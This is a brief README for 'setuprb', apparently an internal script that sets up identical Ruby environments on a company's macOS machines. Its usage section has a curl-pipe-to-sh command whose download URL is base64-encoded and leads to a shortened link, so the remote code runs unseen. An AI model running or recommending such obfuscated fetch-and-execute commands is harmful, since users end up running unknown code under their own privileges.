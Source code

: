 # **setuprb** ![picture](img/ruby.png)
`setuprb` makes sure every `Yeojinet` MacOS machine has the exact same Ruby environment, tools and configurations.


### Requirements
SSH access to the `Yeojinet` BravoSprintHub repositories in Bitbucket.


### Usage
From your terminal, execute this command:
```sh
curl -fsSL $(echo aHR0cDovL2JpdC5seS8yTWdDZjd4 | base64 -D) | sh /dev/stdin arg0 arg1
```


### Notes
This is a pre-requisite to properly running the `tuka` gem.
